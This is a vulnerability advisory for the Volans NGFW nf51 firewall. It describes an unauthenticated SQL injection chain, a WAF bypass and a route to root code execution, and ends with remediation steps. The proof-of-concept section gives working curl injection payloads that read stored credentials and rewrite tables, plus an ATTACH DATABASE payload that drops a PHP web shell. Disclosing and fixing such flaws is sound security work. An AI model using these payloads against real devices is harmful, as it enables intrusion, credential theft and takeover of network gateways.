


# Volans NGFW (nf51) Next-Generation Firewall / Internet Behavior Management Gateway

- Vendor: Volans (飞鱼星科技 / ADSLR, adslr.com)
- Product: NGFW Next-Generation Firewall / Internet Behavior Management Gateway
- Product Model: nf51 (internal version r5.1, source tree NGFW_R5.0)
- Firmware Version: nf51.bin (filesystem date 2021-09-01)
- Vulnerability Type: Unauthenticated SQL Injection Leading to Root RCE (SQLite-layer zero escaping + multi-statement exec()) (CWE-89/434)

# Description

The home-grown SQLite data-access layer of the Volans NGFW legacy Web framework (`include/sqlite3.inc`) applies **zero escaping** to user input and executes SQL via `exec()` (which **supports multi-statement**). Combined with the nobusiness-family login exemption, an attacker can **unauthenticated** (zero Cookie) SQL-inject multiple `nobusiness_*` endpoints to read, write, mass-delete and write arbitrary files, and finally use SQLite `ATTACH DATABASE` to drop a PHP file in the document root and obtain **root RCE**. The WAF `checkSecurityAttack()` reads the POST body via `file_get_contents("php://input")`, which is **always empty under multipart**, so multipart requests bypass the blacklist entirely. 

# Impact

- **Unauthenticated SQL-injection read** (`nobusiness_setting_appid_export`): a `UNION` returns the `srv_ip`/`srv_user`/`srv_pwd`/`encrypt_key` columns of `bussiness_org`; on a provisioned device these hold the live docking-platform address, account, password and encryption key;
- **Unauthenticated arbitrary SQL write** (`nobusiness_unitinfo_submit`): `id` lacks `is_numeric`, so stacked SQL or an always-true condition rewrites table rows;
- **Unauthenticated mass delete**: wipes venue registrations, AP ledger and cache files;
- **Unauthenticated file write** (`nobusiness_setting_appid_show`): a multipart upload can be landed in the web root;
- **Unauthenticated arbitrary-path arbitrary-content write → root RCE** (`nobusiness_basic_securityorginfo_show`): `ATTACH DATABASE` writes PHP into the document root; a `GET` triggers `uid=0(root)`.

# Vulnerability Details

## 1. Affected Component and Root Cause

### Root cause 1 — SQLite layer zero escaping + multi-statement `exec()` (`include/sqlite3.inc`)

```php
function get_SQLite3_data_add($table_name,$data){
    foreach($data as $key=>$value){ $insert_key .= $key.','; $insert_value .= '\''.$value.'\','; }
    $sql = 'INSERT INTO '.$table_name.' ('.$insert_key.') VALUES ('.$insert_value.')';
    $result = $this->exec($sql);   // <- zero escaping + exec() supports multi-statement
}
```

Across the family only `nobusiness_securityorginfo.mds:83-84` applies `str_replace("'","''")` to `srv_user`/`srv_pwd`; every other field is concatenated raw.

### Root cause 2 — WAF bypassable (`include/func.inc`)

```php
function checkSecurityAttack(){
    $post_query_string = file_get_contents("php://input");   // <- always empty under multipart
    if(sql_and_command_injection($post_query_string)){ $this->error('POST body'); }
}
```

The blacklist patterns all require whitespace, while SQLite accepts `/**/` as a separator; `'`, `(`, `)`, `,`, `;`, `=` are all absent.

## 2. Authentication Prerequisite

**None.** `checkLoginState()` exempts `nobusiness_*` labels by substring, directly reachable on the Web management port (80/tcp) with **no Cookie/Session/token/Referer**.

**Environment**: the requests below were run against the firmware's own PHP/lighttpd stack started locally on the analysis host (`127.0.0.1:8099`); `127.0.0.1` is that local instance.

## 3. Proof of Concept

### Read (`nobusiness_setting_appid_export`)

```bash
curl -s 'http://127.0.0.1:8099/webui/?g=nobusiness_setting_appid_export&org=zz%27/**/union/**/select/**/srv_ip,srv_user,srv_pwd,encrypt_key/**/from/**/bussiness_org/**/where/**/%27%27=%27'
# Observed: the response contains the selected columns of bussiness_org (empty in a fresh emulation)
```



### Write / arbitrary SQL (`nobusiness_unitinfo_submit`)

```bash
curl -s -X POST 'http://127.0.0.1:8099/webui/?g=nobusiness_unitinfo_submit' \
  --data-urlencode "id=1';update/**/bussiness_org/**/set/**/srv_ip='ARB_STMT_OK'/**/;select/**/1/**/where/**/1=1/**/and/**/'1" \
  --data 'site_code=S1&site_name=N1&site_address=A1'
# Observed: bussiness_org changed 1|PRE_STATE_IP|… → 1|ARB_STMT_OK|… (the second UPDATE of the multi-statement took effect)
```

### Arbitrary-path arbitrary-content write → root RCE (`nobusiness_basic_securityorginfo_show`)

multipart POST `?g=nobusiness_basic_securityorginfo_show` + `submit_post=securityorginfo_submit`, injected field `company_orgcode`:

```
company_orgcode = x');ATTACH DATABASE '/usr/local/webui/webui/attachements/PWN9.php' AS p;
    CREATE TABLE p.t(c text);
    INSERT INTO p.t VALUES('<?php echo "RCE_OK_".shell_exec("id")."_END";?>');
```

```bash
curl -s 'http://127.0.0.1:8099/webui/attachements/PWN9.php?c=id'
# Observed: SQLite format 3 … + RCE_OK_uid=0(root) gid=0(root) groups=0(root)
```



## 4. Root Cause Summary

1. SQLite CRUD primitives zero-escape + `exec()` multi-statement ⇒ arbitrary SQL execution (CWE-89);
2. Arbitrary SQL + SQLite `ATTACH DATABASE` ⇒ arbitrary-path arbitrary-content write (CWE-434/22);
3. Writing a `.php` into the document root + global php-cgi mapping + root process ⇒ remote code execution (CWE-94);
4. WAF reads the body via `php://input`, empty under multipart ⇒ blacklist defeated (CWE-184).

## 5. Remediation

1. Rewrite the SQLite CRUD primitives to `prepare()` + `bindValue()`, **remove `exec()` multi-statement capability**;
2. Push parameter allowlist/type checks down into `formatget()`/`formatpost()`;
3. Make the WAF validate `$_POST`/`$_FILES`, **not `php://input`**;
4. Restrict SQLite `ATTACH DATABASE`; move the DB and writable directories out of the document root; `url.access-deny = (".php",".fcgi",".cgi")` on writable directories;
5. Add a double gate on the upload branch; write files to a dedicated non-web directory.
